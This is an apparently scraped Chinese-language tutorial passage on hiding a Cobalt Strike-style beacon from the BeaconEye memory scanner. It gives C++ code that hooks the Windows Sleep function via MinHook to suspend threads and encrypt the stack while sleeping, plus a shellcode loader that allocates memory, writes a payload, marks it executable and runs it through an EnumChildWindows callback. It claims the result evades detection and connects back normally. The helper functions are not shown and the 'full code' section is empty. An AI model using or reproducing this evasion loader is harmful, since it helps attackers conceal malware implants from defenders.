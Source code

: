   * 

    
    
    https://github.com/TsudaKageyu/minhook

首先需要将lib文件和Minhook.h文件拉入到项目中。

  *   *   *   *   *   *   *   * 

    
    
      
    #include <iostream>#include "MinHook.h"#pragma commint(lib,"C:\\Users\\Admin\\Desktop\\bin\\libMinHook.x86.lib");int main(){   }

这里我们直接给出代码了，因为上面文章已经介绍过了。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    void(WINAPI* SleepTest)(DWORD dwMiliseconds);void WINAPI HookedSleep(DWORD dwMiliseconds) {    DWORD time = dwMiliseconds;    if (time > 3000) { //如果时间大于1秒的话        //首先挂起线程        PendingThread(GetCurrentProcessId(), GetCurrentThreadId());        //加密        Stackencryption();                SleepTest(dwMiliseconds);        //进行解密        Stackencryption();        //然后恢复挂起的线程        RestoreThreads(GetCurrentProcessId(), GetCurrentThreadId());    }    else {        SleepTest(time);    }}template <typename T>inline MH_STATUS MH_CreateHookEx(LPVOID pTarget, LPVOID pDetour, T** ppOriginal){    return MH_CreateHook(pTarget, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));}  
    template <typename T>inline MH_STATUS MH_CreateHookApiEx(    LPCWSTR pszModule, LPCSTR pszProcName, LPVOID pDetour, T** ppOriginal){    return MH_CreateHookApi(        pszModule, pszProcName, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));}BOOL HookTest() {    if (MH_Initialize() != MH_OK)    {        return 1;    }  
        if (MH_CreateHookApiEx(        L"kernel32.dll", "Sleep", &HookedSleep, &SleepTest) != MH_OK)    {        return 1;    }  
        if (MH_EnableHook(MH_ALL_HOOKS) != MH_OK)    {        return 1;    }}

最后我们执行Shellcode即可，在执行shellcode之前调用HookTest即可。

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    int main(){    HookTest();    unsigned char dll[263168] = {shellcode}    SIZE_T size = sizeof(dll);    SIZE_T bytesWritten = 0;    DWORD oldProtect = 0;    void* sh = VirtualAllocEx(GetCurrentProcess(), 0, (SIZE_T)size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);    WriteProcessMemory(GetCurrentProcess(), sh, dll, size, &bytesWritten);    VirtualProtectEx(GetCurrentProcess(), sh, size, PAGE_EXECUTE_READ, &oldProtect);    EnumChildWindows(NULL, (WNDENUMPROC)sh, NULL);}

然后我们使用BeaconEye扫描，可以看到已经扫描不到了。

![]()

正常上线:

![]()

完整代码:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 
